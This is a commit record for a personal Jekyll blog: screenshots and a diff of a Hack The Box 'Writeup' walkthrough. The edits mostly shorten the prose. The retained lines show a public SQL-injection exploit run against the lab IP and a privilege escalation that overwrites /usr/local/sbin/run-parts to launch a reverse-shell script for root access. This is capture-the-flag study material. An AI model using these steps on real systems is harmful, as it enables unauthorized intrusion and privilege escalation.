

Before and after one commit to Dreamscent/Dreamscent.github.io, a Jekyll site: the page built from _posts/2019-10-12-HTB-Writeup.md, in a window 1280 px wide and 900 px high, scrolled down 7092 px. Shown: the whole window, without its empty margins (18-991 px from the left). Built offline with Jekyll 4.4.1, drawn with Linux system fonts in a browser that asks for light colours; nearby versions of some CDN libraries; some of the changed text lies outside the part shown.

Commit message:
Update 2019-10-12-HTB-Writeup.md

````diff
--- a/_posts/2019-10-12-HTB-Writeup.md
+++ b/_posts/2019-10-12-HTB-Writeup.md
@@ -56,7 +56,7 @@
 ~~~
 
 
-Opening up the webpage in the browser shows a static HTML page stating that the website is still under construction and that it was a mockup of a Hackthebox Writeup blog.
+Opening up the webpage in the browser shows a static HTML page stating that the website is still under construction.
 
 
 
@@ -110,7 +110,9 @@
 
 
 
+
 For the remainder, we can see what remains:
+
 
 - Green - We can probably try these first, usually the 'Verified'(checkmark on "V") ones are preferred, but there are none in this case
 - Orange - Stuff with "Multiple Vulnerabilities", we may need to read those to see which may be useful
@@ -140,21 +142,9 @@
 ![1570847484045](https://github.com/Dreamscent/Dreamscent.github.io/raw/master/images/Writeup/1570847484045.png)
 
 
-OR
 
 ~~~bash
-root@kali:~/0x4a/Hackthebox/Writeup# python 46635.py
-[+] Specify an url target
-[+] Example usage (no cracking password): exploit.py -u http://target-uri
-[+] Example usage (with cracking password): exploit.py -u http://target-uri --crack -w /path-wordlist
-[+] Setup the variable TIME with an appropriate time, because this sql injection is a time based.
-~~~
-
-
-
-~~~bash
-python 46635.py -u http://10.10.10.138
-# Supplying the above parameter failed, so we can try perhaps to include the /writeup directory as it may not have been able to access the SQL injection parameters from the web root
+python 46635.py -u http://10.10.10.138 # This one failed, so we can try perhaps to include the /writeup directory as it may not have been able to access the SQL injection parameters from the web root
 
 python 46635.py -u http://10.10.10.138/writeup
 ~~~
@@ -214,15 +204,10 @@
 
 
 
-There was this phrase on the Kali Linux website somewhere:
+There was this phrase on the Kali Linux website somewhere which seems applicable here:
 
 
-
-> The quieter you are, the more you can hear
-
-
-
-In some cases, there may be cronjobs or scheduled tasks running  on the server but are not listed when you run your enumeration scripts. These may be because of a lack of permissions. To get around this, we can run [pspy][3].
+In some cases, there may be cronjobs or scheduled tasks running  on the server but are not listed when you run your enumeration scripts. These may be because of a lack of permissions. To get around this, we can run [pspy][3]. This binary when run, will show all events happening in real time.
 
 
 
@@ -371,17 +364,6 @@
 echo python /tmp/tcp_pty_backconnect.py > /usr/local/sbin/run-parts
 chmod +x /usr/local/sbin/run-parts
 ```
-
-
-
-OR
-
-
-
-![1570853415374](https://github.com/Dreamscent/Dreamscent.github.io/raw/master/images/Writeup/1570853415374.png)
-
-
-
 
 
 Then, open a new terminal window/tab and SSH back in with our credentials to trigger the event. If we look at the listener we set up previously, we should get a root shell! Reading the `root.txt` file is possible now.
````
Also changed, not shown: other parts of _posts/2019-10-12-HTB-Writeup.md (+9 -1 lines).
